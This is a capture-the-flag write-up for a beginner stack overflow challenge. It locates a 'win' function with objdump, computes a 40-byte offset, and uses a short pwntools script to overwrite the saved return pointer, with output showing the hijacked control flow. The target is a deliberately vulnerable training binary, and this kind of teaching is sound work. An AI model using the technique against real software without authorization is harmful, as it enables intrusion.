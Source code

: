 # 03_ret_overwrite Writeup

## Steps:
1. Run chall. Notice this is similar to 02 except we aim to overwrite the return pointer.
```
$ ./chall                                

Your goal is to modify the return pointer @ 0x7ffdb4c02078, to a function called 'win' in the binary.

A good tool to use is 'objdump'. Now is the time to learn more about it, if you don't!

0x7ffdb4c02050: 0x0000000000000000 0x0000000000000000 
0x7ffdb4c02060: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffdb4c02070: 0x0000000000000001 0x00007f829a7e5ca8 

Enter input: AAAA

0x7ffdb4c02050: 0x0000000a41414141 0x0000000000000000 
0x7ffdb4c02060: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffdb4c02070: 0x0000000000000001 0x00007f829a7e5ca8 

You failed to overwrite the return pointer.
```

2. Identify where `win` is using `objdump`
```
$ objdump -d chall
...
00000000004015c6 <win>:
  4015c6:       f3 0f 1e fa             endbr64
  4015ca:       55                      push   %rbp
  4015cb:       48 89 e5                mov    %rsp,%rbp
  4015ce:       48 8d 3d ab 0a 00 00    lea    0xaab(%rip),%rdi        # 402080 <_IO_stdin_used+0x80>
  4015d5:       e8 d6 fa ff ff          call   4010b0 <puts@plt>
  4015da:       bf 00 00 00 00          mov    $0x0,%edi
  4015df:       e8 1c fb ff ff          call   401100 <exit@plt>
...
```
4.  Determine the distance to the target variable ~ 5 sets of 8 bytes = `40` bytes
5.  Create the payload ~ 40 bytes of garbage to reach target variable then `0x004015c6` (address of `win`)
```
from pwn import *

target = process("./chall")
win = 0x004015c6

payload = b"A" * 40
payload += p64(win)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 153875
[+] Receiving all data: Done (715B)
[*] Process './chall' stopped with exit code 0 (pid 153875)

Your goal is to modify the return pointer @ 0x7ffd7944f0e8, to a function called 'win' in the binary.

A good tool to use is 'objdump'. Now is the time to learn more about it, if you don't!

0x7ffd7944f0c0: 0x0000000000000000 0x0000000000000000 
0x7ffd7944f0d0: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd7944f0e0: 0x0000000000000001 0x00007fa829137ca8 

Enter input: 
0x7ffd7944f0c0: 0x4141414141414141 0x4141414141414141 
0x7ffd7944f0d0: 0x4141414141414141 0x4141414141414141 
0x7ffd7944f0e0: 0x4141414141414141 0x00000000004015c6 

Congrats, you successuly changed execution flow!
```
